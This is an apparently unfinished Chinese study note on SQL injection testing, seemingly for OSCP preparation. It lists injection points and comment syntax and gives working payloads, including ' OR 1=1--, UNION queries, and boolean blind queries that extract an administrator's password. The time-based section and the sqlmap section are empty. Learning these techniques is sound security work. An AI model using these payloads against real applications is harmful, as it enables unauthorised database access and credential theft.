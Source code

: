 ```yaml
---
description: web应用没有对用户输入做充分检查或未对输出进行编码，从而使得攻方可以干扰应用程序，对其后端数据库进行查询和修改
---
```


# ✔️ SQL注入 - SQL Injection

## 查找和测试

1. 只会出现在需要访问数据库的web应用中，识别应用中所有接受用户输入的地方
2. 任何编程语言写的应用，只要在传递用户输入的动态构造的SQL语句之前没有进行验证和审查，就容易受到攻击，除非使用参数化查询和绑定变量
3. 在盲注的过程中，寻找两个响应之间的差异（大量推理和测试）
4. 观察哪种类型的请求会触发异常，理解服务器的响应中的异常，了解服务器端正在发生的情况
5. 漏洞可能发生在查询内的任何位置以及不同的查询类型中

## 常见的注入位置

在 `UPDATE` 语句中，在更新的值或 `WHERE` 子句中

在 `INSERT` 语句中插入的值内

在 `SELECT` 语句中，表名或列名内

在 `SELECT` 语句中的 `ORDER BY` 子句中

## 漏洞类型及其利用（手工注入）

### 常用查询语句

```sql
// 注释
--
#
/* */
// 查询
SELECT * FROM ??? WHERE ???=XXX 
ORDER BY
' OR 1=1--
administrator'--
```

### 常规注入

#### UNION注入

使用 `UNION` 关键字从数据库中的其他表检索数据，能够执行一个或多个附加SELECT查询并将结果附加到原始查询：

```sql
// 查询多个表中的数据
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

1. 各个查询必须返回相同数量的列
2. 每列中的数据类型必须在各个查询之间兼

### 盲注

#### 时间盲注





#### 布尔盲注

使用BurpSuite的Intruder设置payload:

```sql
// 读密码，先确定密码长度
'AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
// 再读取各个字符串
'AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```





####











## 自动化工具

### Sqlmap（OSCP禁用）

